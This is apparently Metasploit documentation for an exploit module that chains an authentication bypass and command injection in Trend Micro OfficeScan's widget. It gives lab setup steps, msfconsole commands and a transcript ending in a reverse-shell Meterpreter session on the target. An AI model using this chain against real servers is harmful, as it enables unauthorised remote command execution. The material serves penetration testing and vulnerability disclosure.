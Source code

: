 ## Vulnerable Application

This module exploits the authentication bypass and command injection vulnerability together. Unauthenticated users can execute a terminal command under the context of the web server user.

The Trend Micro OfficeScan product has a widget feature which is implemented with PHP. Talker.php takes ack and hash parameters but doesn't validate these values, which leads to an authentication bypass for the widget. Proxy.php files under the mod TMCSS folder take multiple parameters but the process does not properly validate a user-supplied string before using it to execute a system call. Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "OfficeScan" and click.
3. At the time of writing this documentation, you must see "osce-xg-win-en-gm-b1315.exe" next to Download button.
4. Click to the download button and complete installation of ISO.
5. Install the downloaded file on Windows operating system. (Tested with Windows 7)

If you don't see an affected version of OfficeScan, you can try to download it directly from following URL.

[http://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe](http://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/trendmicro_officescan_widget_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Authenticated successfully bypassed` value.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf exploit(trendmicro_officescan_widget_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Auto detection enabled. Trying to detect target system version.
[*] Target system selected : OfficeScan 11
[*] Exploiting authentication bypass
[+] Authenticated successfully bypassed.
[*] Generating payload
[*] Trigerring command injection vulnerability
[*] Sending stage (179267 bytes) to 12.0.0.176
[*] Meterpreter session 9 opened (12.0.0.1:4444 -> 12.0.0.176:49842) at 2017-10-09 21:57:29 +0300

meterpreter > sysinfo
Computer        : CME
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : tr_TR
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```